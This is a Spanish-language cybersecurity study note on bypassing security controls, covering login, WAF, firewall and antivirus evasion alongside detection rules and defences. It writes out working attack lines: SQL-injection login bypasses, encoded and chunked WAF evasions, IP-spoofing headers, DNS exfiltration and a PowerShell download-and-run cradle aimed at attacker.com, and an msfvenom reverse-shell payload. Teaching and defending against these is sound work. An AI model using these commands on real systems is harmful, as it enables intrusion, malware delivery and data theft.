



# 🔓 Bypass: Evasión de Controles de Seguridad

> [!warning] Concepto fundamental en ciberseguridad
> El **Bypass** es la técnica de **eludir o evadir** mecanismos de seguridad, controles o restricciones implementados en un sistema. Es una habilidad esencial en pentesting y una amenaza crítica que los defensores deben comprender para implementar protecciones efectivas.

---

## 📋 Tabla de Contenidos
- [Definición y Conceptos](#definición-y-conceptos)
- [Tipos de Bypass](#tipos-de-bypass)
- [Metodologías de Bypass](#metodologías-de-bypass)
- [Ejemplos Prácticos](#ejemplos-prácticos)
- [Técnicas de Detección](#técnicas-de-detección)
- [Medidas Preventivas](#medidas-preventivas)

---

## 🧠 Definición y Conceptos

### ¿Qué constituye un Bypass?

Un bypass implica **sortear una medida de seguridad** sin desactivarla directamente, aprovechando:

- **Fallas en la implementación** de controles de seguridad
- **Lógica deficiente** en validaciones
- **Configuraciones incorrectas** en sistemas de protección
- **Limitaciones técnicas** de las soluciones de seguridad
- **Puntos ciegos** en la arquitectura de seguridad

### Clasificación por nivel de sistema



---

## 🎯 Tipos de Bypass

### 1. Bypass de Autenticación

> [!example] Saltarse controles de acceso
> Técnicas para acceder a sistemas sin credenciales válidas o evitar procesos de autenticación.

#### Técnicas comunes:

| Técnica | Descripción | Ejemplo |
|---------|-------------|---------|
| **SQL Injection** | Manipular consultas de base de datos | `' OR '1'='1' --` |
| **Cookie Manipulation** | Modificar cookies de sesión | Cambiar `role=user` a `role=admin` |
| **Parameter Tampering** | Alterar parámetros de URL/formularios | `?user_id=1` → `?user_id=2` |
| **Session Fixation** | Fijar identificadores de sesión | Predefinir session_id conocido |
| **Token Bypass** | Evadir tokens de verificación | Eliminar campos CSRF |

```bash
# Ejemplo de SQL Injection para bypass de autenticación
username: admin' --
password: cualquier_cosa

# La consulta resultante se convierte en:
# SELECT * FROM users WHERE username='admin' -- AND password='hash'
# El doble guión comenta el resto, evitando la verificación de contraseña
```

### 2. Bypass de WAF (Web Application Firewall)

> [!tip] Evasión de firewalls de aplicaciones web
> Los WAF analizan el tráfico HTTP/HTTPS para detectar ataques. Los bypasses explotan limitaciones en las reglas de detección.

#### Técnicas de ofuscación:

```bash
# Bypass usando codificación URL
Original: <script>alert('XSS')</script>
Bypass:   %3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E

# Bypass usando caracteres mixtos
Original: UNION SELECT
Bypass:   /*!50000UNION*/ /*!50000SELECT*/

# Bypass usando comentarios SQL
Original: ' UNION SELECT 1,2,3--
Bypass:   ' /**/UNION/**/SELECT/**/1,2,3--

# Bypass usando doble codificación
Original: <script>
Bypass:   %253Cscript%253E

# Bypass usando fragmentación HTTP
POST /vulnerable.php HTTP/1.1
Content-Length: 30
Transfer-Encoding: chunked

4
SeLe
2
cT
1
*
0
```

### 3. Bypass de Firewall de Red

#### Técnicas de tunneling:

```bash
# HTTP Tunneling
# Encapsular tráfico no-HTTP dentro de HTTP
curl -X POST -H "Content-Type: application/octet-stream" \
     --data-binary @payload.bin http://target.com/tunnel

# DNS Tunneling
# Exfiltrar datos usando consultas DNS
dig $(echo "data" | base64).attacker.com

# ICMP Tunneling
# Usar paquetes ICMP para comunicación
ptunnel -p target.com -lp 8080 -da target.com -dp 22
```

### 4. Bypass de Antivirus

```bash
# Técnicas de evasión de AV
# 1. Ofuscación de código
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 \
         -e x86/shikata_ga_nai -i 10 -f exe -o payload.exe

# 2. Compilación in-memory
powershell -nop -w hidden -e <base64_encoded_payload>

# 3. Process Hollowing
# Inyectar código en procesos legítimos

# 4. Living off the land
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/script.ps1')"
```

---

## ⚙️ Metodologías de Bypass

### Flujo sistemático de bypass



### Proceso de identificación de bypasses

#### Fase 1: Reconocimiento

```bash
# Identificar sistemas de protección activos
nmap -sC -sV target.com
nikto -h http://target.com
whatwaf -u http://target.com

# Fingerprinting de WAF
wafw00f http://target.com

# Análisis de headers de seguridad
curl -I http://target.com
```

#### Fase 2: Análisis de comportamiento

```bash
# Test de respuestas a diferentes payloads
curl -d "test=<script>alert(1)</script>" http://target.com/form
curl -d "test=%3Cscript%3Ealert(1)%3C/script%3E" http://target.com/form

# Análisis de mensajes de error
sqlmap -u "http://target.com/page.php?id=1" --level=5 --risk=3 --tamper=space2comment
```

#### Fase 3: Desarrollo de bypass

```python
# Script automatizado para test de bypass de WAF
import requests
import urllib.parse

def test_waf_bypass(url, payloads):
    bypassed = []
    for payload in payloads:
        # Diferentes técnicas de encoding
        encoded_payloads = [
            payload,  # Original
            urllib.parse.quote(payload),  # URL encoding
            urllib.parse.quote(urllib.parse.quote(payload)),  # Double encoding
            payload.replace(' ', '/**/'),  # SQL comment
            payload.upper(),  # Case variation
        ]
        
        for encoded in encoded_payloads:
            response = requests.get(f"{url}?param={encoded}")
            if "blocked" not in response.text.lower():
                bypassed.append(encoded)
                print(f"[+] Bypass encontrado: {encoded}")
    
    return bypassed

# Lista de payloads de prueba
payloads = [
    "' OR '1'='1",
    "<script>alert(1)</script>",
    "../../etc/passwd",
    "sleep(5)"
]

bypassed_payloads = test_waf_bypass("http://target.com/search", payloads)
```

---

## 💻 Ejemplos Prácticos

### Caso 1: Bypass de autenticación SQL

```sql
-- Aplicación vulnerable con consulta:
SELECT * FROM users WHERE username='$user' AND password='$pass'

-- Bypass usando comentarios SQL
Usuario: admin' --
Contraseña: (cualquier cosa)

-- Consulta resultante:
SELECT * FROM users WHERE username='admin' -- AND password='hash'
```

### Caso 2: Bypass de filtros de upload

```php
// Filtro original que solo permite imágenes
if (preg_match('/\.(jpg|jpeg|png|gif)$/i', $_FILES['file']['name'])) {
    // Permitir upload
}

// Bypasses comunes:
shell.php.jpg        // Doble extensión
shell.phtml          // Extensión alternativa
shell.php%00.jpg     // Null byte injection
shell.php#.jpg       // Fragment identifier
shell.php%20.jpg     // Space injection
```

### Caso 3: Bypass de WAF usando fragmentación HTTP

```http
POST /search.php HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Transfer-Encoding: chunked

9
q=1' UNIO
9
N SELECT 
5
1,2,3
0


```

### Caso 4: Bypass de restricciones de IP

```bash
# Usando headers HTTP para bypass de IP filtering
curl -H "X-Originating-IP: 127.0.0.1" http://target.com/admin
curl -H "X-Forwarded-For: 127.0.0.1" http://target.com/admin
curl -H "X-Remote-IP: 127.0.0.1" http://target.com/admin
curl -H "X-Remote-Addr: 127.0.0.1" http://target.com/admin

# Bypass usando IPv6
curl -g "http://[::1]/admin"

# Bypass usando formato decimal de IP
curl http://2130706433/admin  # 127.0.0.1 en decimal
```

---

## 🔍 Técnicas de Detección

### Indicadores de bypass

> [!warning] Señales de alerta
> - Patrones de tráfico anómalos
> - Incremento en errores 403/404 seguidos de 200
> - Uso de encoding inusual en requests
> - Fragmentación de payloads
- Headers HTTP no estándar

### Herramientas de monitoreo

```bash
# Análisis de logs en tiempo real
tail -f /var/log/apache2/access.log | grep -E "(%[0-9A-F]{2}|UNION|SELECT|<script)"

# Detección de anomalías con suricata
alert http any any -> any any (msg:"Possible WAF Bypass"; content:"/**/"; http_uri; sid:1000001;)

# Monitoreo con fail2ban
# /etc/fail2ban/filter.d/waf-bypass.conf
[Definition]
failregex = .*"(.*%[0-9A-F]{2}.*|.*\/\*\*\/.*|.*\s+union\s+.*|.*<script.*)".*
```

---

## 🛡️ Medidas Preventivas

### Estrategias de defensa en profundidad



### Implementación de controles robustos

#### 1. Validación de entrada mejorada

```python
# Validación estricta con whitelist
import re
from html import escape

def secure_validate_input(user_input, input_type):
    # Whitelist approach
    patterns = {
        'email': r'^[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}$',
        'username': r'^[a-zA-Z0-9_]{3,20}$',
        'numeric': r'^\d+$'
    }
    
    if input_type in patterns:
        if re.match(patterns[input_type], user_input):
            # Escape para prevenir XSS
            return escape(user_input)
    
    raise ValueError(f"Invalid {input_type} format")

# Uso
try:
    safe_email = secure_validate_input(user_email, 'email')
except ValueError:
    # Rechazar input
    pass
```

#### 2. Configuración de WAF avanzada

```bash
# ModSecurity rules para bypass prevention
SecRule ARGS "@detectXSS" \
    "id:1001,phase:2,block,msg:'XSS Attack Detected',\
    logdata:'Matched Data: %{MATCHED_VAR} found within %{MATCHED_VAR_NAME}'"

SecRule ARGS "@detectSQLi" \
    "id:1002,phase:2,block,msg:'SQL Injection Attack Detected'"

# Rule para detectar encoding bypass
SecRule ARGS "@rx (?:%[0-9A-Fa-f]{2}){3,}" \
    "id:1003,phase:2,block,msg:'Multiple URL Encoding Detected'"
```

#### 3. Monitoreo y alertas

```python
# Sistema de detección de bypasses
import logging
from collections import defaultdict, deque
import time

class BypassDetector:
    def __init__(self):
        self.request_patterns = defaultdict(lambda: deque(maxlen=100))
        self.alert_threshold = 5
        
    def analyze_request(self, ip, request_data):
        suspicious_patterns = [
            r'%[0-9A-Fa-f]{2}',  # URL encoding
            r'/\*.*?\*/',         # SQL comments
            r'[<>"\']',          # Potential XSS chars
            r'(union|select|insert|update|delete)\s+',  # SQL keywords
        ]
        
        score = 0
        for pattern in suspicious_patterns:
            if re.search(pattern, request_data, re.IGNORECASE):
                score += 1
        
        if score >= 2:  # Multiple suspicious patterns
            self.request_patterns[ip].append({
                'timestamp': time.time(),
                'score': score,
                'data': request_data
            })
            
            # Check for bypass attempts
            if len(self.request_patterns[ip]) >= self.alert_threshold:
                self.trigger_alert(ip)
    
    def trigger_alert(self, ip):
        logging.warning(f"Possible bypass attempt from {ip}")
        # Implementar respuesta automática (rate limiting, blocking, etc.)
```

---

## 📊 Tabla de Técnicas vs Contramedidas

| Técnica de Bypass | Contramedida | Efectividad |
|-------------------|--------------|-------------|
| **URL Encoding** | Decodificación recursiva en WAF | ⭐⭐⭐⭐ |
| **SQL Injection** | Prepared statements + input validation | ⭐⭐⭐⭐⭐ |
| **XSS** | CSP + output encoding | ⭐⭐⭐⭐ |
| **File Upload** | Type validation + sandboxing | ⭐⭐⭐⭐ |
| **HTTP Tunneling** | Deep packet inspection | ⭐⭐⭐ |
| **DNS Tunneling** | DNS monitoring + filtering | ⭐⭐⭐ |
| **Process Injection** | Application whitelisting + EDR | ⭐⭐⭐⭐ |

---

## 🎓 Mejores Prácticas

> [!success] Recomendaciones clave
> 
> **Para Pentesters:**
> - Siempre probar múltiples técnicas de bypass
> - Documentar bypasses exitosos para reportes
> - Mantenerse actualizado con nuevas técnicas
> - Usar herramientas automatizadas pero validar manualmente
> 
> **Para Defensores:**
> - Implementar defensa en profundidad
> - Actualizar reglas de seguridad regularmente
> - Monitorear patrones de bypass conocidos
> - Realizar pruebas de penetración periódicas
> - Mantener logs detallados para análisis forense

---

## 🔗 Referencias

- [[glosario]] - Términos y definiciones de ciberseguridad
- OWASP Testing Guide
- SANS Penetration Testing Framework
- NIST Cybersecurity Framework

> [!note] Consideración ética
> El conocimiento sobre técnicas de bypass debe usarse únicamente para:
> - Pruebas de penetración autorizadas
> - Investigación de seguridad
> - Mejora de defensas
> - Educación en ciberseguridad
> 
> El uso malicioso de estas técnicas es ilegal y éticamente incorrecto.